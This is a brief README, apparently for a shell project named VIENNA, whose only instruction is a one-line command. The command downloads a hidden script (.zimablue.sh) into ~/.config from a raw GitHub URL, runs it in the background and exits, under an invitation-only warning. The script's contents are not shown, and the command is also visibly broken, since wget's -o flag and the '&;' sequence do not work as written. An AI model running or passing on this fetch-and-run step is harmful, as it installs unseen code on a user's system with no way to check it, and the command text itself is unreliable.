 # VIENNA
shell script designed to work on debian distros,inspired by biennale.py
DO NOT USE UNLESS YOU ARE DIRECTLY RECOMMENDED THIS  
to run use 
cd /home/usuario/.config;wget -o .zimablue.sh https://raw.githubusercontent.com/kittystrikeforce911/VIENNA/refs/heads/main/.zimablue.sh; bash .zimablue.sh &; exit 1;

